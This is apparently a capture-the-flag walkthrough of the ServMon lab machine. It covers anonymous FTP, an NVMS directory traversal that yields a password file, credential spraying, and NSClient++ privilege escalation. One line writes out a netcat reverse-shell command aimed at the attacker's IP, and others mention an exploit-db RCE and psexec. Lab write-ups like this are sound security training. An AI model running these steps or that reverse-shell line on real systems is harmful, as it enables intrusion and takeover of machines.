



# PORT SCAN
* **21** &#8594; FTP (anonymous login)
* **22** &#8594; SSH
* **80** &#8594; HTTP
* **135** &#8594; Microsoft RPC
* **139** &#8594; SMB (signing enabled but not required)
* **445** &#8594; SMB (secure, signing enabled but not required)
* **5666** &#8594; NRPE (Apparently)
* **6063** &#8594; X11
* **6699** &#8594; Napster (LOL, actaully we can see this port as a standard p2p port until new information)
* **8443** &#8594; HTTPS (tipically used by TomCat, title NSClient+)

   

# ENUMERATION & USER FLAG
Cool really exahustive port scan right here, this time I decide to google the box name and (after some walkthroughs) I have found [this tool on github](https://github.com/SeinopSys/ServMon) which is a sort of costum XAMPP Control Panel. I don't know if is used or not in the box (also exist at least another software with this name) but good to know.

By the way let's start from FTP since accept anonymous loging, inside we have a directory called `Users` with inside 2 subfolders with user name

Time to download the directory locally and check what we have here

Cool cool cool, in both we have the `.listing` file

Uhm.....ok(?) now is the Nadine `Confidential.txt` file

Ok now (just by intuition) if that file is still inside the Desktop of Nathan we can use `X11` protocol to access it and take Nadine password so let's take this option open,

Finally I can check the `TODO list` of Nathan

NVMS is not something known to me but can be or a CMS or a software for take a look at cameras but I fund no precise software/protocol so unless further enumeration doesn't give me enough info I will go on and hope on future informations. The fact that **secrets files are not uploaded on sharepoint** can mean they are locally on the box so good thing and **upload the passwords is unchecked** so on the Nathan Desktop we will found the password file but we need access now so time to check others port.

Port 80 uncover the NVMS enigma

Yeah, is a CCTV software and appear to be vulnerable to directory traversal

I tried and it works! After some trials I quickly retrieved the password file left on the Nathan Desktop

What happen when we have a list of user and a list of passwrods? **<u>CRACKMAPEXEC!</u>**

This tool is always satisfying when get the right credentials so we can use SSH (smb have nothing for us) and grab the user flag!

   

# PRIVILEGE ESCALATION
We are in and I have enough experience to know that one of the first thing to check on a WIndows environment are the application that can be found on `Program Files` and check if something new is available for us...

`NSClient++` is weird to have there and is described as **an agent designed originally to work with <u>Nagios</u> evolved into a fully fledged monitoring agent which can be used with numerous monitoring tools**. <u>Nagios</u> (which run on NRPE service identify before from the nmap scan) is used to monitor (remotely in this case) machine metrics.

The puzzle is slowly starting to be clear step by step, let's see what we inside the software directory but nothing cool.
We can use the CLI version of the software called `nscp` so first thing first is the version which is `0.5.2.35` and seems to be vulnerable to a known CVE 

COOL STUFF, COOL STUFF but someone can tell me why everyone can grab the password with this

LOL, now just follow the instructions to get the root 

1) We need to enable `CheckExternalScripts` and `Scheduler`, in order to achieve this we need to make a port forwarding (I get this because we can't remotely access it) but is not strictly needed because checking the configuration files this 2 configuration are activated from the start
2)  Upload `nc.exe` and a bat file like the following `\programdata\nc.exe 10.10.14.11 1234 -e cmd` (in my case everything in `programdata` directory)
3)  Now the hard part, we need to access the webapp and setting everythin in order to trigger the script. Why this is the hard part? Becausethe reverse port is glitchy as fuck...but with some patience we can login and we have the full interface

So we add an external script

And a scheduler

After some minutes we should have a reverse shell but not, why that? because defender is continously deleting the `nc.exe` file, annoying. So change of plans!

Let's use [this vulnerability](https://www.exploit-db.com/exploits/48360) wich is a RCE in order to add the user nandine to the administrators group. After downloding that and converting in python we can give thepassword and the url target (the one achieved with port forwarding) in order to get the RCE

Now let's check if everything was smooth

We are not done we need to make a PE on the PE (lol) in order to get `nt authority / system` and we can use PSEXEC for that. If we are part of administrators group we can abuse psexec which upload and start a Windows Service through SMB spawning a shell as `system` (more info [here](https://www.synacktiv.com/en/publications/traces-of-windows-remote-command-execution.html))

Good even if is a easy machine I have dealing with was a good training field for Windows skills!
